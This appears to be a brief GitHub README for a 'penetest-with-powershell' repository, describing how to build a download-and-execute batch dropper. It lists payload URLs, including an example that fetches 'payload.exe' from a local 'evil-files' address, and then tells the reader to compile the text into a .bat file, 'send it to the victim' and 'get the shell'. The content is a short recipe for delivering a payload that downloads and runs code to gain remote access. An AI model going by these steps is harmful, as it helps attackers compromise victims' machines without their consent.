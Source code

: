 # penetest-with-powershell

download and execute script 
set files=‘url1’,’url2'
mention your payload URL in the script

exmple
set files=‘www.http://www.googl.com/car1.jpg’,’http://192.168.0.1/evil-files/payload.exe'
then, compile the txt into bat 
send it to the victim get the shell 









